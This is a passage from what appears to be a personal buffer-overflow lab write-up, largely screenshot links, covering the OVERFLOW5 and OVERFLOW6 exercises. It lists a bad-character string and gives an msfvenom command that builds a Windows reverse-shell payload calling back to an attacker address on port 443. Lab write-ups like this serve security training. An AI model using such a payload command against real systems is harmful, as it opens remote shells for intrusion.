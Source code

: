 ![of5badchars](assets/markdown-img-paste-20210904104727457.png)

Final bad char string: "\x00\x16\x2f\xf4\xfd"

`msfvenom -p windows/shell_reverse_tcp LHOST=10.8.210.115 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x16\x2f\xf4\xfd"`

![of5admin](assets/markdown-img-paste-20210904105009162.png)

## OVERFLOW6
![of6-offset](assets/markdown-img-paste-20210904105517958.png)

![of6-badcharcompleted](assets/markdown-img-paste-20210904105828838.png)

